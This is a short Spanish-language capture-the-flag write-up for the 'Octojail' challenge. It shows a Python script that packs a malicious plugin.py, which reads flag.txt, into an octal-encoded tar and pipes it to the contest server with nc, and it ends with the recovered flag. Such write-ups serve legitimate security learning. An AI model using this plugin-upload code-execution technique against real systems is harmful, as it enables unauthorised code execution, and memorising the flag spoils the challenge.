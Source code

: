 # Octojail

El programa recibe un archivo tar en octal, extrae su contenido en `/uploads` y luegoe ejecuta la funcion `run` en `/uploads/plugin.py` si existe el fichero.

Podemos crear un script para que cree un archivo de texto en octal del tar con la carga util:
``` py
import os

os.system('echo "import subprocess\\n\\ndef run():\\n    l = subprocess.run([\'/bin/cat\', \'flag.txt\'])" > plugin.py')

os.system('tar cf plugin.tar plugin.py')

with open("plugin.tar", "rb") as f:
    data = f.read()

octal = ''.join(f'{byte:03o}' for byte in data)

with open("octal.txt", "w+") as f:
    f.write(octal)
```

Luego pasarselo con: `nc ctf.ac.upt.ro port < octal.txt`

`ctf{0331641fadb35abb1eb5a9640fa6156798cba4538148ceb863dfb1821ac69000}`

